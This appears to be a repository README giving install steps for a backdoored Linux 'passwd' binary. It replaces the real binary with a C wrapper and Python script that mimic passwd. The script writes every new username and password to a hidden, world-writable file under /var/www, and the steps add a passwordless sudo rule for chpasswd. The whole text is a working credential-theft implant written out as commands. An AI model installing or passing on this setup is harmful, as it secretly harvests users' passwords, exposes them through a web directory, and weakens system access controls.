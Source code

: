 ## Backdoored passwd binary

First you must create a `...` file in `/var/www`.

`touch /var/www/...`

Next make `root` own the file and give it `777` permissions. 

`chown root:root /var/www/... ; chmod 777 /var/www/...`

Backing up the origin passwd binary is recommended.

`mv /usr/bin/passwd /usr/bin/passwd.orig`

You will now need to move the compiled c binary to replace the original.

`mv passwd /usr/bin`

Give `root` ownership and give the file `755` permissions.

`chown root:root /usr/bin/passwd ; chmod 755 /usr/bin/passwd`

Next move the `zpasswd` python script into `/usr/bin`

`mv zpasswd /usr/bin`

You will also need to give `root` ownership and `755` permissions.

`chown root:root /usr/bin/zpasswd ; chmod 755 /usr/bin/zpasswd`

The last part that you have to do because I have not found a way to get around it, is that you must add a Cmnd_Alias in the `/etc/sudoers` file so that when the new username/password is passed to chpasswd, they will not have to enter their password to do sudo and run chpasswd.

This can be done by typing `visudo` and going down to the Cmnd_Alias section, and adding the line:

`Cmnd_Alias CHPASSWD=/usr/bin/chpasswd`

then adding the user as a sudoer to run that command without a password under User aliases

`<username> ALL=NOPASSWD: CHPASSWD`

and saving it.

Now when users run the `passwd` command, they will run the C compiled binary, which will pass over to the `zpasswd` python script, which will emulate the real passwd binary, but will add the new credentials to `/var/www/...` and then finally change the password of the user.
